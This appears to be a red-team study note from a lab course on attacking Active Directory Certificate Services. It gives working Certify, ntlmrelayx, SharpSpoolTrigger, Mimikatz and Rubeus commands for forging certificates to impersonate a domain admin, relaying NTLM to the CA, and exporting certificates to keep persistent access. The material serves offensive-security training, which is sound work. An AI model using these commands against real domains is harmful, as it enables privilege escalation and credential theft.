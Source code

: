 # Active Directory Certificate Services

Active Directory Certificate Services (AD CS) is a server role that allows you to build a public key infrastructure (PKI).  This can provide public key cryptography, digital certificates, and digital signature capabilities.  Some practical applications include Secure/Multipurpose Internet Mail Extensions (S/MIME), secure wireless networks, VPN, Internet Protocol security (IPsec), Encrypting File System (EFS), smart card logon, and TLS. Correct implementation can improve the security of an organisation in confidentiality (encryption), integrity (digital signatures), and authentication (associate certificates with computer, user, or device accounts).

Misconfigurations can introduce exploitable security risks, like privilege escalation (even domain user to domain admin) and persistence. This module is derived from a research [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf).

## Finding Certificate Authorities

To find ADCS CAs in a domain or forest, run Certify with the cas parameter. This will output lots of useful information, including the root CA and subordinate CAs:

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas

The Cert Chain is useful to note (e.g. ```CN=ca,DC=cyberbotic,DC=io -> CN=sub-ca,DC=dev,DC=cyberbotic,DC=io``` shows that "sub-ca" in the DEV domain is a subordinate of "ca" in the CYBER domain). The output also lists the certificate templates at each CA, as well as some information about which principals are allowed to manage them.

## Misconfigured Certificate Templates

AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates. They are designed to be duplicated and configured for specific needs. Misconfigurations within these templates can lead to privilege escalation. Certify can also find vulnerable templates:

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable

The following are some possible vulns:

* If ENROLLEE_SUPPLIES_SUBJECT is enabled, the certificate requestor can provide any SAN (subject alternative name).
* The certificate usage has Client Authentication set.
* DEV\Domain Users have enrollment rights, so any domain user may request a certificate.
* If an attacker controlled principal has WriteOwner, WriteDacl or WriteProperty.

If the configuration allows any domain user to request a cert for any other domain user (including a domain admin) and use it for authentication, do this:

1: Request a certificate for nlamb:

    beacon> getuid
    beacon> execute-assembly Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

2: Copy the whole certificate (both private key and cert) and save to cert.pem on Ubuntu. Then use openssl to convert to pfx format:

    ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

3: Convert cert.pfx into a base64 encoded string to use with Rubeus:

    ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

## NTLM Relaying to ADCS HTTP Endpoints

AD CS services support HTTP enrollment methods and even includes a GUI, usually found at http/s://<hostname>/certsrv.

If NTLM authentication is enabled, these endpoints are vulnerable to NTLM relay attacks, e.g. coerce a DC to authenticate to an attacker-controlled location, relay the request to a CA to get a cert for that DC, and then use it to obtain a TGT.

Important: cannot relay NTLM authentication back to the originating machine. We therefore wouldn't be able to relay a DC to a CA if those services were running on the same machine. This is the case in the lab, as each CA is running on a DC.

Another good way to abuse this primitive is by gaining access to a machine configured for unconstrained delegation. In the lab already have access to WEB as jking, but this is another way of achieving the same end. Need:

* PortBender on Workstation 2 to capture traffic on 445 and redirect it to 8445
* A reverse port forward to forward traffic hitting port 8445 to the team server on port 445
* A SOCKS proxy for ntlmrelayx to send traffic back into the network

1: ntlmrelayx needs to target the certfnsh.asp page on the ADCS server:

    attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

2: Force the authentication to occur from WEB to WKSTN-2:

    beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102

The [S4U2Self](https://github.com/xenloops/Red_team_notes/blob/92f613464d685b265f6261a9e9cb6a752cf467c7/15_kerberos.md?plain=1#L152) trick can be used to obtain usable TGSs to move laterally to it.

## User & Computer Persistence

Certificates can be useful for maintaining persistence to users and computers since they tend to have a longer shelf-life then passwords (user certs are valid for an entire year by default, regardless of password changes).

Certificates only become invalid if they're revoked by the CA (or expire).  This also does not rely on any vulnerable templates.  We can extract certificates that have already been issued, or just request new ones.

### User Persistence

User certificates that have already been issued can be found in the user's Personal Certificate store (Console root\Certificates - Current user\Personal\Certificates). 

1: Enumerate certificates with Seatbelt. Check that "certificate is used for client authentication":

    beacon> getuid
    beacon> run hostname
    beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates

2: Export certs with Mimikatz using crypto::certificates (saves them to disk; View > Downloads in CS to download):

    beacon> mimikatz crypto::certificates /export
    beacon> download CURRENT_USER_My_0_Nina Lamb.pfx

3: Base64 encode the pfx file:

    ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0

4: Use Rubeus to obtain a TGT (export password will be mimikatz) (requests RC4 tickets by default; force AES256 with ```/enctype:aes256```):

    beacon> execute-assembly Rubeus.exe asktgt /user:nlamb /certificate:MIINeg... /password:mimikatz /nowrap

If the user does not have a cert in their store request one with Certify:

    beacon> execute-assembly Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User

### Computer Persistence

The same can be applied to computer accounts, but must elevate to extract those certs:

    beacon> mimikatz !crypto::certificates /systemstore:local_machine /export
    beacon> execute-assembly Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA... /password:mimikatz /nowrap

If requesting a machine certificate with Certify, use the /machine parameter to auto-elevate to SYSTEM and assume the identity of the computer account:

    beacon> execute-assembly Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine



